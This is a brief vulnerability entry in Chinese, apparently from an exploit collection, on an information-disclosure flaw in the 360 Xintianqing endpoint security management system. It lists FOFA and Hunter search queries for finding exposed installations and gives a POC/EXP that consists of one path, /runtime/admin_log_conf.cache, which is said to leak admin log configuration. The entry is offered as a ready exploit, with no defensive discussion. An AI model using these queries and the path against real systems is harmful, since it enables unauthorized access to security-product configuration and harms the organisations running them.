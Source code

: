 # 360 新天擎终端安全管理系统 admin_log_conf 信息泄露漏洞

## 网络测绘

fofa: title="360新天擎"

hunter: web.title="360新天擎"

## POC / EXP

```
/runtime/admin_log_conf.cache
```